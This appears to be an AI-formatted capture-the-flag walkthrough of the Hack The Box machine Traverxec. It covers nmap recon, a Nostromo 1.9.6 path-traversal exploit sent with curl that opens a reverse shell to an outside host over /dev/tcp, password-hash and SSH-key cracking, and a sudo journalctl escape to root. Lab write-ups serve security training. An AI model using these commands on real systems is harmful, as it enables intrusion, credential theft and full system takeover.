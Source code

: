 Here's a clean, organized **Markdown walkthrough** for **HTB: Traverxec**, grouped by exploitation stage with all essential commands and insights:

---

# 🧠 HTB: Traverxec — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `nostromo`, `webshell`, `sudo journalctl`, `ssh key`, `GTFObins`

---

## 📡 Recon

### Full TCP Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.165
```

### Script & Version Scan

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.165
```

- **Ports:** 22 (OpenSSH 7.9p1), 80 (Nostromo 1.9.6)
- **Likely OS:** Debian Buster

---

## 🌐 [Web Enumeration](HTTP)

### Web Content

- Default page for **web designer**
- Server: `nostromo 1.9.6` (from HTTP headers)

### Vulnerability Search

```bash
searchsploit nostromo
```

✅ Metasploit RCE found for Nostromo 1.9.6

---

## 🐚 Shell as www-data

### Manual Exploit via Curl

```bash
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' \
-d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

### Listener

```bash
nc -lvnp 443
```

✅ Reverse shell as `www-data`

---

## 👤 Priv Esc: www-data → david

### Found htpasswd file

```bash
cat /var/nostromo/conf/.htpasswd
# david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Crack with Hashcat

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username
# Password: Nowonly4me
```

### Found Homedirs Setting

```bash
cat /var/nostromo/conf/nhttpd.conf
# homedirs /home
# homedirs_public public_www
```

Check:

```bash
ls /home/david/public_www/protected-file-area/
```

✅ Found: `backup-ssh-identity-files.tgz`

### Download via HTTP Auth

```bash
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
tar -xzf backup-ssh-identity-files.tgz
```

Contains: Encrypted SSH key for david

### Crack [SSH](SSH) Key

```bash
/opt/john/run/ssh2john.py id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: hunter

# Save decrypted key:
openssl rsa -in id_rsa -out id_rsa_david
```

### SSH in as david

```bash
ssh -i id_rsa_david david@10.10.10.165
```

📄 `cat user.txt`

---

## 🔓 Priv Esc: david → root

### Found sudo usage in script

```bash
cat ~/bin/server-stats.sh
# Calls: sudo /usr/bin/journalctl -n5 -unostromo.service
```

### Exploit with GTFObins

- **Shrink terminal window**
- Run:

```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

- While in less:
```bash
!/bin/bash
```

✅ Root shell!

📄 `cat /root/root.txt`
